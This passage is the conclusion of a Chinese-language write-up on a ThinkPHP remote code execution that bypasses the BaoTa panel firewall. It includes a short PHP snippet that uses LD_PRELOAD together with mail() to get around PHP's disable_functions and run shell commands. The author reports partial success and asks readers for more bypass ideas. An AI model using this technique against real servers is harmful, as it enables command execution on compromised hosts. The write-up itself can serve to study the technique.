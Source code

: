 ## 3 总结

其实关于命令执行这点还是有些遗憾，因为尝试使用[LD_PRELOAD劫持](https://www.freebuf.com/articles/web/192052.html)没有完全成功，只能执行一些简单命令，关于这点希望有大佬能指点一二，下面是使用的代码，和执行结果

```php
$evil_cmdline = 'id';
$out_path = '/tmp/output';
echo "cmdline: " . $evil_cmdline . "\n";

$evil_cmdline .= ' > '. $out_path;
putenv("EVIL_CMDLINE=" . $evil_cmdline);
$so_path = '/tmp/bypass_disablefunc_x64.so';
putenv("LD_PRELOAD=" . $so_path);

mail("", "", "", "");
echo "output: " . nl2br(file_get_contents($out_path)); 
```

![1566569823871](./Thinkphp%20RCE绕过宝塔面板的姿势分享/1566569823871.png)

总的来说，全流程绕过宝塔WAF的目的还是达到了，也有一点点微薄的产出，希望大家不吝赐教更多的绕过思路。
